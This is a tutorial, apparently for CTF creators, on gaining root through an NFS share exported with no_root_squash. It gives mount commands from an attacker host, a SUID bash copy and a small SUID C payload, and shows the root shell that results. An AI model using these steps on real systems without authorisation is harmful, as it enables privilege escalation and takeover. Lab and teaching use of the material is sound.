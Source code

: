 # Linux Privilege Escalation - NFS Root Squashing for CTF Creators


#  NFS

Root squash is an NFS feature that maps the remote root user (UID 0) to a local user with minimal privileges, typically the nobody user (UID 65534). This prevents remote root users from having root privileges on the NFS server, enhancing security.

The NFS configuration file is `/etc/exports`. Here are the relevant options:

- no_root_squash: This option disables root squash, allowing the root user on the client to access files on the NFS server as root. This can be risky, as it allows the creation of malicious files on the NFS share with root privileges.

- no_all_squash: This option is similar to no_root_squash but applies to non-root users, preventing their UIDs from being mapped to the nobody user.

# Privilege Escalation via NFS Root Squashing

On the victim machine we'll find the directory in which NFS is hosting files:

```bash
cat /etc/exports
```

On your adversary host, we'll install the NFS client package:

```bash
 sudo apt install nfs-common
```

In our adversary host, we'll create a directory to host the NFS share:

```bash
mkdir /tmp/nfs
```

In our adversary host, we will mount the remote share in the `/tmp/nfs` directory of our adversary host, make sure to run this command with sudo.

```bash
sudo mount -o rw,vers=2 10.10.10.14:/tmp /tmp/nfs
```

The following error means that we don't have permission to mount the share, try it with sudo instead.

> mount.nfs: failed to apply fstab options

The following error means that we need to try another protocol version.

> mount.nfs: Protocol not supported

Alternatively, we can mount it this way:

```bash
sudo mount -t nfs 10.10.10.14:/tmp /tmp/nfs
```

If we receive the error down by the user:

> mount: /tmp/nfs: bad option; for several file systems (e.g. nfs) we might need a /sbin/mount.
	
This means that we don't have an NFS client installed:

```bash
sudo apt install nfs-common
```

Once the share is mounted we can attempt to create a payload.

We can create a bash binary with a SUID bit:

```bash
sudo cp /bin/bash /tmp/nfs/bash && sudo chmod u+s /tmp/nfs/bash
```

Another payload that we can use is a custom C code:

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
	setresuid(0, 0, 0);
	setuid(getuid());
	system("/usr/bin/bash");
	return 0;
}
```

Compile this payload and remove any existing if any, then copy the payload to the share:

```bash
gcc payload.c -o payload && sudo rm /tmp/nfs/payload 2>/dev/null; sudo cp payload /tmp/nfs
```

Add the SUID bit to the payload executable:

```bash
sudo chmod u+s /tmp/nfs/payload
```

Now in the victim host, we can execute any of the previous payloads to escalate privileges:

```bash
user@pwn:/tmp$ ls -l
total 1296
-rwsr-xr-x 1 root root 1230280 Dec 1 09:03 bash
-rwsr-xr-x 1 root root   16232 Dec 1 09:05 payload

user@pwn:/tmp$ ./bash -p
bash-5.1# whoami
root
bash-5.1# exit

user@pwn:/tmp$ ./payload 
root@pwn:/tmp# id
uid=0(root) gid=1000 (user) <...SNIP...>
```

Once we're done we can unmount the shared directory in our adversary host:

```bash
sudo umount /tmp/nfs
```
